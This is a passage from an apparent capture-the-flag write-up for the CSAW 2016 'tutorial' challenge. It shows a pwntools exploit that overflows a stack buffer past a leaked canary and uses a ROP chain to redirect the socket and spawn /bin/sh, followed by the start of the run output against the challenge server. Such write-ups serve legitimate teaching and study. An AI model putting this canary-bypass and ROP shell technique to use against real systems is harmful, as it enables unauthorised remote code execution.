 ```language-python
    # dup2(4, 0)
    rop.raw(rop.find_gadget(['pop rdi', 'ret']))
    rop.raw(0x4)
    rop.raw(rop.find_gadget(['pop rsi', 'ret']))
    rop.raw(0x0)
    rop.raw(libc.symbols['dup2'])

    # dup2(4, 1)
    rop.raw(rop.find_gadget(['pop rsi', 'ret']))
    rop.raw(0x1)
    rop.raw(libc.symbols['dup2'])

    FLAGS_OUT_FOR_HARAM_BASH = next(libc.search('/bin/sh'))

    rop.system(FLAGS_OUT_FOR_HARAM_BASH)

    return rop

##==========HONEY I OVERWROTE THE KIDS============
def theKidsWereMemoryLeaksAnyways(canary, rop):
    conn.recvuntil('>')
    conn.sendline('2')
    conn.recvuntil('>')
    #0x138 = 312 & 312/4 = 78
    exploit = 'Meme' * 78 + canary + 'Meme' *2 + bytes(rop)
    conn.sendline(exploit)
    conn.interactive()


if __name__ == "__main__":
    calcLibcAddress()
    canary = getCanary()
    rop = honeyGetMeTheRop()
    theKidsWereMemoryLeaksAnyways(canary, rop)

```






# Executing the Exploit

```language-bash
python exploit.py
[*] '/home/kettle/work/ctf/csaw2016/pwn/tutorial-200/tutorial'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
[*] '/home/kettle/work/ctf/csaw2016/pwn/tutorial-200/libc-2.19.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.chal.csaw.io on port 8002: Done
[DEBUG] Received 0xb bytes:
    '-Tutorial-\n'
[DEBUG] Received 0x1c bytes:
    '1.Manual\n'
    '2.Practice\n'
    '3.Quit\n'
```